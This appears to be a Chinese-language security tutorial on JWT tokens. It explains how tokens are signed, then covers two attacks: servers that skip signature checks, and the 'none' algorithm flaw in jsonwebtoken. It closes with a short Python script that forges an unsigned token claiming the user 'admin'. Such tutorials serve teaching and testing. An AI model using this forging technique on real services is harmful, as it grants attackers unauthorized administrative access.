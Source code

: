 

```javascript
// javascript
var encodedString = base64UrlEncode(header) + '.' + base64UrlEncode(payload);

var signature = HMACSHA256(encodedString, 'secret');
```

---

**最后将这三部分用.连接成一个完整的字符串,构成了最终的jwt。**

![](https://img.npfs06.top/20210326205645.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



<a href="https://jwt.io/" target="_blank">jwt解密网站</a>



---

# **攻击方法**

## **签名无效**

当用户端提交请求给应用程序，服务端可能没有对token签名进行校验，这样，攻击者便可以通过提供无效签名简单地绕过安全机制。

直接修改payload内容，生成新token



---



 ## **空加密算法**

JWT支持使用空加密算法，可以在header中指定alg为`None`

**将secret置空。利用node的jsonwentoken库已知缺陷：当jwt的secret为null或undefined时，jsonwebtoken会采用algorithm为none进行验证**

因为alg为none,所以只要把signature设置为空（即不添加signature字段），提交到服务器，token都可以通过服务器的验证

![](https://img.npfs06.top/20210326205656.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



```python3
import jwt
token = jwt.encode(
{
  "user": "admin",
},
algorithm="none",key=""
).decode(encoding='utf-8')

print(token)
```
